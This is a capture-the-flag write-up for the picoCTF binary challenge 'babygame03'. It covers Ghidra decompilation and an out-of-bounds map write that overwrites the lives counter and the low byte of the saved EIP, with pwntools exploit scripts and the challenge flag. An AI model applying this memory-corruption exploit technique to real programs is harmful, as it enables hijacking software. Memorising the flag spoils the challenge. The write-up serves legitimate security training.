## babygame03
 

**Description**

Break the game and get the flag. Welcome to BabyGame 03! Navigate around the map and see what you can find! Be careful, you don't have many moves. There are obstacles that instantly end the game on collision. The game is available to download here. There is no source available, so you'll have to figure your way around the map.

**Write-up**

Binary information. x32 bits.


Dynamically testing. Seems to be a puzzle game where the goal is to reach position X alive. User only has 50 lives, losing all of them terminates the game.





Decompiled with Ghidra. App is not stripped making static analysis straightforward.

The end goal is to call the function `win` and print the flag. For the flag to print `param_1` must be 5.


Function `win` is called when the do/while loop terminates in function `main`. 

Refactored code around the binary.

`main`:


`init_player`:


`init_map`:


`print_map`:


`print_lives_left`:


`find_player_pos`:


`find_end_tile_pos`:


`move_player`:


`solve_round`:


- Game details:
    - To win a level, the user must reach the position y=29, x=89 and curr_level be different than 4.
    - To win the game, user position must be  y=29 and x=89, curr_level=5 and completed_lvl=4.
    - Random obstacles are placed around the map and hitting them causes instant termination.
    - Doing a move takes 1 life.
        - To reach y=29 from y=4, takes 25 lives.
        - To reach x=89 from x=4, takes 85 lives.
        - There are only 50 lives.
        - So even without hitting any obstacle, winning by fair means is not feasible, user requires 110 lifes to reach the goal.

- The interesting part:
    - App does not check for out of bounds moves. Function `move_player` does not check if the direction the player is moving is inside of the expected map.
    - In stack, map is aligned below the `player_stats`.
    - When `move_player` is called, is possible to write to `player_tile` a user-controlled value by selection option `l`. This is meant to change visually only the player icon on the map.
    - All of this points, culminate into the abuse possibilities of the operation `map[player_stats->pos_x + player_stats->pos_y * 90] = player_tile;`.

- Debugged the program and printed the stack.
    - Found the location of the `player_stats` (0x40 - '@') struct at address `0xffffc530`.
    - Found the current player location in stack at address `0xffffc6ab`.
    - The difference between the current location in stack until the player coordinates is `379` bytes.
    - `player_stats` is in a lower position in the stack than the `map`.
    - To reach this position, the player must move up 4 times and to the left 15 times for X or 19 for Y.
    - I must make sure however, that I don't reach any byte with value `0x23` (#), otherwise game is terminated.



- With that logic in mind I attempted to beat the game by:
    - first overwriting the MSB in the lifes variable
    - going 1 position down
    - then calling `solve_game` with `p`

```python
from pwn import *

io = process('/home/alex/Downloads/ctfs/game')

for i in range(0, 5):
    print("Solving level: " + str(i))

    # can't simply overwrite anything, next move my value will be undone bcz of writing "." in previous position
    for i in range(0, 7):
        io.send(b'a')

    for i in range(0, 4):
        io.send(b'w')

    # overwrite life
    io.send(b'a')

    # go down, solving will go straight to the right and hit an obstacle 
    io.send(b's')

    # I now need to overwrite the level variable to be 5

    # solve now
    io.send(b'p')

    print("Solved level: " + str(i))

io.interactive()
```

This code reached the last level, however there is a problem with the code logic at this point. To win the game, curr_level must be 5 but it will only be increased to 5 if is different than 4. If I do the overwrite of this variable to 5, then completed_levels will be increased to 5 and the do-while loop won't end, therefore I also have to overwrite the value of completed level. Though there is a small problem, if I overwrite the byte, when I try to go back to have the coordinates y=29 and x=89, the function `move_player` at line 23, will replace that value with 0x2e.





Had an ideia, overwrite the EIP in stack of the function `move_player`. After some calculations, I just had to replace the last byte of EIP in the `move_player` stack frame with `0xfe` and I would jump out of the loop and straight to calling `win`. This worked, however there is an additional check in the `win` function to verify if the current level is 5, therefore flag was not printed (in this case I deleted the file `flag.txt` just to be able to see the error and 100% be sure that `win` was called, otherwise nothing was printed).


Under this situation, using solution above came with another strategy. First overwrite the LSB of move_player EIP with `0x7a`, a jump to straight winning the level bypassing the check. When I finally reached level 5, then I would overwrite EIP LSB with `0xfe` to leave the loop.

Final solution:
```python
from pwn import *

#io = process('/home/alex/Downloads/ctfs/game')
io = remote("rhea.picoctf.net", 53399)

""" gdb.attach(io, '''
    break *0x08049687
''') """

def overwrite_move_player_eip(value):
    for i in range(0, 7):
        io.send(b'a')

    for i in range(0, 4):
        io.send(b'w')

    # overwrite life, otherwise not enough lives to do anything
    print("Next one is overwriting lives...")
    io.send(b'a')

    # go up, we can't touch the coordinates or we lose write
    io.send(b'w')

    # we just moved 46 bytes past the LSB of EIP
    # we have to align the addresses to be able to directly jump to LSB of EIP, therefore being exactly 90 bytes distance before going down.
    # to align, since im atm in a lower address I must go even lower, for that I need to move to the left "a"
    print("Starting the aligning...")
    for i in range(0, 47):
        io.send('a')

    # change value of LSB EIP
    io.send(b'l' + value)
    print("were about to overwrite EIP")

    # hopefully, if we now go down, it should directly overwrite LSB of EIP in stack frame at move_player...
    io.log(3, "preparing to land at EIP of move_player")
    io.send('s')


"""
Reach level 4
    - On each round I have to overwrite lives, otherwise game is impossible.
    - Have to avoid hitting bytes with value 0x23 (#).
    - Have to skip the level completed check.
        - Otherwise, wouldn't be possible to reach curr_level 5 as the value must be different than 4 to enter the if block
    - Directly overwriting with the "write-what-where" primitive wouldn't work as next move would undo the overwrite with the value of "."
"""
overwrite_move_player_eip(b'\x7a')
overwrite_move_player_eip(b'\x7a')
overwrite_move_player_eip(b'\x7a')
overwrite_move_player_eip(b'\x7a')


"""
Overwrite EIP of move_player to jump out of bugged loop straight to 0x080499fe
    - At this point I should have curr_level = 5, and the check condition on function "win" succeed
"""

io.send(b'l@')  # reset player_tile
overwrite_move_player_eip(b'\xfe')

io.interactive()
```

**Solution**


Flag: picoCTF{gamer_leveluP_84af2cfc}


[back](/index)